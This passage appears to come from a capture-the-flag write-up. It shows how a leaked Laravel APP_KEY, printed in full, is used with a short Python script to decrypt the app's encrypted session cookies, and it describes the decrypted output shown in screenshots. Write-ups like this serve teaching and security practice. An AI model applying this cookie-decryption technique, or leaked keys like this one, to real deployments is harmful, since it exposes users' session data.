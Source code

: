 The file exists and the `APP_KEY` is leaked as well! (`AXNWH2Zx5mZknQGvOIhdPt08uh4CjK4xWkVJLNFKmf8=`)

Now let's use that key to decrypt the session cookie to see what it includes. With some googling I was able to find a python snippet to decrypt Laravel encrypted values. With some slight modifications the script can be used to decrypt our cookie:

```python3
import os, base64, json
from Crypto.Cipher import AES
from phpserialize import loads


def decrypt(payload):
    data = json.loads(base64.b64decode(payload))

    value =  base64.b64decode(data['value'])
    iv = base64.b64decode(data['iv'])

    return unserialize(mcrypt_decrypt(value, iv))


def mcrypt_decrypt(value, iv):
    key = base64.b64decode("<APP_KEY>")

    crypt_object = AES.new(key=key, mode=AES.MODE_CBC, IV=iv)
    return crypt_object.decrypt(value)


def unserialize(serialized):
    return loads(serialized)


print(decrypt("<BLOG_SESSION-COOKIE>"))
```

Now let's run the script:

![Decrypted blog_session cookie](./attachments/decrypted_blog_session_cookie.png)

> Note: You might need to install phpserialize with for example: `sudo apt install python3-phpserialize`

The decrypted value seems to be the name of the other mysterious cookie. Now let's take a look at that cookie instead. Just change the cookie from the previous script and re-run it:

![Decrypted mysterious cookie](./attachments/decrypted_mysterious_cookie.png)
